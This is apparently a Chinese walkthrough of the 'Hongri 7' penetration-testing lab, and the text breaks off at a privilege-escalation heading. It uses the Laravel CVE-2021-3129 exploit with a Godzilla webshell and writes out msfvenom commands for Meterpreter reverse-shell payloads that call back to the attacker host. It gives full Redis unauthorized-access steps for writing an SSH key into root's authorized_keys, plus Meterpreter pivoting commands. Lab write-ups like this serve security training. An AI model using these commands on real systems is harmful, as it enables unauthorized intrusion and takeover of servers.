

# 红日靶场七

## 外网

### 网卡配置

```
密码：
buntu1：web web2021
buntu2：ubuntu ubuntu
win7_1：bunny Bunny2021
win7_2：moretz Moretz2021
win2012：Whoami2021
管理员账户：strator Whoami2021
通达OA账户：admin：admin657260
网卡信息
ubuntu1：网卡1：192.168.52.10 外网：192.168.1.135
ubuntu2：网卡1：192.168.52.20 网卡2:192.168.93.10
win7——1：网卡1:192.168.52.30 网卡2:192.168.93.20
win7——2：网卡2:192.168.93.40
win2012：网卡2:192.168.93.30
攻击机kali：192.168.1.128
```


### 服务配置 

靶场中各个主机都运行着相应的服务并且没有自启功能，如果你关闭了靶机，再次启动时还需要在相应 的主机上启动靶机服务： 

```
DMZ区的 Ubuntu 需要启动nginx服务： 
redis-server /etc/redis.conf 开启redis服务
/usr/sbin/nginx -c /etc/nginx/nginx.conf  开启NGINX服务，可能提示端口被占用，证明用已经开启
iptables -F  清空防火墙规则

第二层网络的 Ubuntu需要启动docker容器： 
sudo service docker start 
sudo docker start 8e172820ac78 

第三层网络的 Windows 7 （PC 2）需要启动通达OA： 
C:\MYOA\bin\AutoConfig.exe  运行oa配置
```

1.NGINX


2.docker


3.通达


### 信息搜集

扫描端口


得到22 80 81 6379端口都是开启的

尝试访问

一直没访问到，后来检查发现另一台机子是这台机子的反向代理，要同时开启才能正常访问

这里发现本地NGINX目录没有自己的源码文件，所以猜测是反代


发现是一个laravel框架


根据工具检测，看到开了反向代理


这里在右下角看到了版本信息

### laravel-cve-2021-3129漏洞利用

我们在github上面直接搜索框架的漏洞，找到一个


然后这里我们用linux运行


 这里使用高版本会出错因为新的加密方式，我们使用哥斯拉2.92版本可以直接连接

```
全版本下载链接：
https://github.com/BeichenDream/Godzilla/releases
```


上线成功


这里发现只能执行一些简单的命令，没有过高的权限


通过命令发现，我们处于docker容器中

```
cgroup | grep docker 返回的信息是docker文本字样，依次可以判断我们处于docker容器中
例如：
$ cat /proc/1/cgroup | grep docker
11:name=systemd:/docker/6476c4a8d45867f5d844498f169226aa81f47675a5a564370c60e82de426176c
后面是容器的id
```

这里用kali反弹一个shell出来

```
命令格式为msfvenom -p [payload] LHOST=[IP地址] LPORT=[端口号] -f [格式] -o [文件名]

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.30.133 LPORT=10000 -f exe -o 2.exe 
```

这里我们的就是

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.128 LPORT=6666 -f elf > hr7.elf
```


生成成功


通过godzilla上传


尝试msf上线，选择与生成的elf对应的payload


这里默认监听的是4444端口，这里我们也把他改成与elf对应的6666端口

尝试执行


执行失败，猜测是没有执行权限也无法直接赋予

再加上我们处于docker容器中，拿到的权限也是另一台机子的docker容器中的权限

无法从这里入手

我们从前面收集到的信息入手，这里想起来之前收集到的信息中的redis服务开启的6379端口

### redis未授权访问

#### 原理

```
Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。
```

**产生条件**

```
（1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；
（2）没有设置密码认证（一般为空），可以免密码远程登录redis服务。 
```

**漏洞危害**

```
（1）攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行flushall来清空所有数据；
（2）攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件；
（3）最严重的情况，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器
```

#### 漏洞利用

这里kali没有安装redis服务

先安装一下

```
sudo apt-get update 
sudo apt-get install redis 
redis-cli ping这里用命令检查一下服务是否运行
sudo systemctl restart redis.service 重启
```


这里我们尝试用命令连接

```
redis-cli -h 192.168.1.135
```


从登录的结果可以看出该redis服务对公网开放，且未启用认证


输入info直接回显信息

这里我们直接尝试本地生成密钥然后覆盖目标主机的密钥

**攻击者在未授权访问redis的情况下，利用redis自身提供的config命令，可以进行写文件的操作，攻击者可以成功将自己的ssh公钥写入目标服务器的/root/.ssh文件夹的authotrized_keys文件中，进而可以使用对于私钥直接使用ssh服务登录目标服务器**

```
ssh-keygen -t rsa  #生成公钥
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > 1.txt  #将公钥导入1.txt文件
cat 1.txt | redis-cli -h 192.168.36.128 -p 6379 -x set hello   #把1.txt文件内容写入目标主机的redis缓冲中
config set dir /root/.ssh                #设置redis的备份路径为/root/.ssh/
config set dbfilename authorized_keys    #设置保存文件名为authorized_keys
save                                     #将数据保存在目标服务器硬盘上
ssh root@192.168.36.128                       #连接    
```

1.生成公钥


2.将密码写进redis缓冲区


3.覆盖密钥（这里查看dbfilename看是否成功改名）


4.ssh连接


```
注意这里连接ssh的时候要处于root账户，并且是不需要密钥的enter进去就可以了
```


可以发现有两个网卡，目前看到还有一层网络

### getshell

这里我们找到他的私钥


将文件cp出来

然后用finalshell连接



成功连接


这里将之前生成的马子传上去继续使用


这里使用命令

```
nohup command & 表示在后台挂着一直运行
关的时候kill
```


这里msf成功上线


拿到权限

## 第一层内网

### 添加路由

run get_local_subnets

 run autoroute -p

 run post/multi/manage/autoroute
 

### 二层内网信息搜集

前面拿到Ubuntu的权限

信息搜集发现，有第二个网卡，所以基本确认有内网


发现有192.168.52.20、192.168.52.30，接着对192.168.52.20下的docker下手，因为ubuntu  web1负责开启环境对外网开放，而getshell的机器是的ubuntu web2代理的web环境，并且ubuntu web2不出网

### linux环境变量提权

